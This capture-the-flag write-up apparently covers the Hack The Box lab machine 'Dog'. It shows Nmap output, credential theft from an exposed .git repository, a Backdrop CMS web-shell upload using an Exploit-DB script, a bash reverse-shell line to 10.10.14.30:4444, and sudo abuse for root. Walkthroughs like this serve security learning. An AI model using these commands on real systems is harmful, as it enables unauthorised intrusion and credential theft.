







# Dog

## Enumeration

The following information was discovered through an Nmap scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Since there is a Git repository exposed, I downloaded it and obtained credentials for the user `tiffany` on the website. To achieve this, I used the following command:

```
wget --mirror -I .git http://10.10.11.58/.git/
```

To restore the working directory:

```
git restore .
```

The password was found in the `settings.php` file located in the root directory. 

<center>  
  
</center>

To find the user, I searched for email addresses using the domain `@dog.htb`:
```
grep -r "@dog.htb" /path/to/directory > results.txt
```
<center>  
  
</center>

Using the username `tiffany` and the extracted password, I was able to log in to the website as an administrator.

## Obtaining a Web Shell

On the admin panel, under Reports > Status Reports, it shows that the Backdrop CMS version is **1.27.1**, which is vulnerable to RCE. I used the following [script](scripts/52021.py) from [Exploit Database](https://www.exploit-db.com/exploits/52021) to exploit it.

<center>  
  
</center>

Since the CMS does not allow ZIP uploads, only `.tar.gz`, I manually compressed the contents of the shell folder into a `.tar.gz` file.

<center>  
  
</center>

Then, I uploaded it at:

```
http://10.10.11.58/?q=admin/installer/manual
```

After installation, the web shell became available at:

<center>  
  
</center>

## Obtaining a Reverse Shell

To gain a reverse shell, I used the following command:

```
bash -c 'bash -i >& /dev/tcp/10.10.14.30/4444 0>&1'
```

With a Netcat listener on port 4444.

## Privilege Escalation

I attempted to reuse the password found for `tiffany` and tried it on other users. It worked for one of them.

<center>  
  
</center>

Using these credentials, I logged in via SSH and obtained the `user.txt` flag from the user’s home directory.

To escalate privileges to root, I used:

```
sudo -l
```

It revealed that the user could execute a PHP file as root. Upon inspecting the script, I found I could use it to execute arbitrary PHP code and gain root access.

<center>  
  
</center>

The root flag was located at `/root/root.txt`.